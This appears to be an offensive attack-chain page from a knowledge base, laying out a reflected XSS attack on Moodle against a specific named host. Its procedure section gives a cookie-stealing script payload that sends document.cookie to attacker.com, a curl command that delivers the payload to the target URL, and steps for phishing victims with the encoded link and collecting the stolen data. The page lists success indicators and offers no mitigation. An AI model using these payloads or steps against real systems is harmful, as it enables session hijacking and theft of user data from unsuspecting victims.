

# Reflected XSS in Moodle for Arbitrary Script Execution

Multi-stage attack chain demonstrating a complete attack workflow targeting a reflected XSS vulnerability in Moodle.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- [[tools/Burp-Suite]] (optional for interception)

### Target Environment

- Web platform running Moodle on PHP
- Accessible URL: e.g., s-immerscio.comprehend.ibm.com
- No specific ports required beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- No credentials needed for reflected XSS
- Victim must be tricked into visiting the malicious URL (e.g., via phishing email)
- Attacker needs network access to observe or receive exfiltrated data

## Detailed Attack Procedures

### Step 1: Deliver Malicious Payload
procedure: [[procedures/Exploit-Reflected-XSS-in-Moodle]]

**Objective**: Inject and reflect a malicious JavaScript payload via a vulnerable input field in Moodle, leading to execution in the victim's browser context.

**Instructions**: Identify a reflected input parameter (e.g., search query or URL parameter) in the Moodle application. Craft a payload such as `<script>alert('XSS')</script>` or more advanced like `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`. Use [[commands/curl-send-xss-payload]] to test delivery:

```bash
curl -G "https://s-immerscio.comprehend.ibm.com/moodle/search.php" --data-urlencode "q=<script>alert('XSS')</script>"
```

Then, encode the payload for URL delivery and send to victim (e.g., via email link). Monitor attacker server for exfiltrated data.

**Expected Output**: Payload reflects unsanitized in the response HTML, executing JS in browser (e.g., alert popup or data sent to attacker).

**Success Indicators**:
- JavaScript executes (e.g., alert fires)
- Sensitive data like cookies exfiltrated to attacker-controlled endpoint
- No server-side errors; payload visible in browser source

## Attack Chain Summary

### Key Achievements

1. Successful reflection of arbitrary JavaScript in victim browser
2. Potential session hijacking or phishing via executed scripts
3. Data theft from victim session without authentication

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
